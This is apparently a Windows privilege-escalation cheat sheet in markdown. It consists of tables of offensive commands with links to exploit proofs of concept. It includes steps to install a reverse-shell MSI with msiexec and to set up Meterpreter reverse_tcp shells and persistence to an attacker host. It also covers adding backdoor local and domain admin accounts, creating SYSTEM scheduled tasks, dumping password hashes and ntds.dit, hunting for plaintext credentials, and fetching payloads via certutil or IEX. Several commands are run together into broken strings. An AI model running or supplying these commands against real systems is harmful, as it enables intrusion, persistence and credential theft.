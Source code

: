 ### 🧭 **Initial Enumeration**

| Category | Command/Tool | Notes |
| --- | --- | --- |
| **Domain Enum (if joined)** | `BloodHound / SharpHound` | Run via `Invoke-BloodHound -CollectionMethod All -Domain <domain>` |
| **Current User** | `whoami`, `echo %username%` | `whoami /groups` → Group membership |
| **Privileges** | `whoami /priv` | Look for `SeImpersonate`, `SeAssignPrimaryToken`, etc. |
| **System Info** | `systeminfo` | Look for hotfixes, uptime, domain, arch |
|  | `wmic os get Caption,CSDVersion,OSArchitecture,Version` | Less verbose alternative to `systeminfo` |
| **Services** | `wmic service get name,startname`, `net start` | Look for custom services or weak paths |
| **Admin Check** | `net localgroup administrators`, `net user` | Verify if current user is in admin group |
| **Network** | `netstat -anoy` | Show ports, PIDs, state |
|  | `route print`, `arp -A`, `ipconfig /all` | Check routing, ARP cache, DNS, gateways |
| **Users** | `net users`, `net user <name>`, `net localgroup` | Look for unused accounts, role abuse |
| **Firewall** | `netsh advfirewall firewall show rule name=all` | Look for open ports allowed in/out |
| **Scheduled Tasks** | `schtasks /query /fo LIST /v > schtasks.txt` | Use `taskschd.msc` GUI (if accessible) for quicker analysis |

---

### 🔐 **Installation Rights (AlwaysInstallElevated)**

```bash
bash
CopyEdit
reg query HKCU\SOFTWARE\Policies\Microsoft\Windows\Installer /v AlwaysInstallElevated
reg query HKLM\SOFTWARE\Policies\Microsoft\Windows\Installer /v AlwaysInstallElevated

```

> 💥 If both are 0x1, build a reverse shell MSI and execute via:
> 

```bash
bash
CopyEdit
msiexec /quiet /qn /i evil.msi

```

---

### 📚 **Windows Privilege Escalation PoCs (by Se*Privilege)**

| Privilege | GitHub PoC |
| --- | --- |
| **SeImpersonatePrivilege** | ⭐ [PrintSpoofer](https://github.com/itm4n/PrintSpoofer) |
| **SeDebugPrivilege** | [SeDebugExploit](https://github.com/bruno-1337/SeDebugPrivilege-) |
| **SeAssignPrimaryToken / SeIncreaseQuota / SeSystemEnvironment / SeMachineAccount** | [HackTricks](https://github.com/b4rdia/HackTricks) |
| **SeTcb / SeCreateToken / SeTakeOwnership / SeRestore** | [token-priv](https://github.com/hatRiot/token-priv) |
| **SeLoadDriver** | [SeLoadDriver PoC](https://github.com/k4sth4/SeLoadDriverPrivilege) |
| **SeBackup / SeRelabel / SeManageVolume** | [CsEnox Exploit](https://github.com/CsEnox/SeManageVolumeExploit) |
| **SeTrustedCredManAccess** | [MS Docs](https://learn.microsoft.com/en-us/windows/win32/secauthz/privilege-constants) |

🔍 Use `whoami /priv` to check what you have.

if youre NT/System use `lusrmgr.msc` to change user passwords

---

### 🧪 **Maintaining Access – Meterpreter Examples**

| Task | Command |
| --- | --- |
| **Reverse Shell Setup** | `set PAYLOAD windows/meterpreter/reverse_tcpset LHOST`, `LPORT`, then `exploit` |
| **Persistence** | `run persistence -U -i 5 -p 443 -r <LHOST>` |
| **Port Forwarding** | `portfwd add -l 3306 -p 3306 -r <target_ip>` |
| **Process Migration** | `run post/windows/manage/migrate`, `migrate <PID>` |
| **Run Custom Payloads** | `powershell.exe "C:\Tools\privesc.ps1"` |

---

### 🧰 **Privilege Escalation Checklist**

| Category | Command/Tip |
| --- | --- |
| **Unquoted Service Paths** | `wmic service get name,displayname,pathname,startmode |
| **Weak Service Permissions** | `accesschk.exe -uwcqv <service>sc qc <service>icacls C:\Path\To\Service.exe` |
| **Clear Text Credentials** | `findstr /si password *.txt *.xml *.inidir /s *cred* *pass* *.config*` |
| **Weak File Permissions** | `accesschk.exe -uwqs Users c:\*.*accesschk.exe -uwqs "Authenticated Users" c:\*.*` |
| **Add Local Admin** | `net user siren P@ssw0rd! /addnet localgroup administrators siren /add` |
| **Add Domain Admin** | `net group "Domain Admins" siren /add /domain` |
| **File Transfers** | `certutil.exe`, `powershell (IEX)`, `tftp`, `ftp`, `python -m http.server`, SMB |

---

### 📅 **Scheduled Task Abuse**

| Action | Command |
| --- | --- |
| **Enumerate** | `schtasks /query /fo LIST /v > tasks.txt` |
| **Create** | `schtasks /create /ru SYSTEM /sc MINUTE /mo 5 /tn RUNME /tr "C:\Tools\sirenMaint.exe"` |
| **Run Now** | `schtasks /run /tn "RUNME"` |

---

### 🔍 **Post-Exploitation Enumeration**

| Action | Command |
| --- | --- |
| **Network Users** | `net user`, `net localgroup administrators`, `net user <target>` |
| **Access Checks** | `accesschk.exe /accepteula`, `whoami`, `groups` |
| **Dump Hashes** | `meterpreter > hashdump` |
| **Dump ntds.dit** | `secretsdump.py` or disk copy via VSS |
| **Share Enumeration** | `net share`, `net use`, `net use Z: \\TARGET\SHARE /persistent:yes` |

---

### 🧪 **Tools & Resources**

| Tool | Purpose |
| --- | --- |
| [Windows Exploit Suggester](https://github.com/AonCyberLabs/Windows-Exploit-Suggester) | Offline patch diff checker |
| [FuzzySecurity Priv Esc Guide](https://www.fuzzysecurity.com/tutorials/16.html) | Popular escalation reference |
| [HackTricks Windows Priv Esc](https://book.hacktricks.xyz/windows/windows-local-privilege-escalation) | Modern, up-to-date tricks |
| `mingw-w64` | Compile Windows payloads on Linux:`x86: i686-w64-mingw32-gcc shell.c -o shell.exex64: x86_64-w64-mingw32-gcc shell.c -o shell64.exe` |
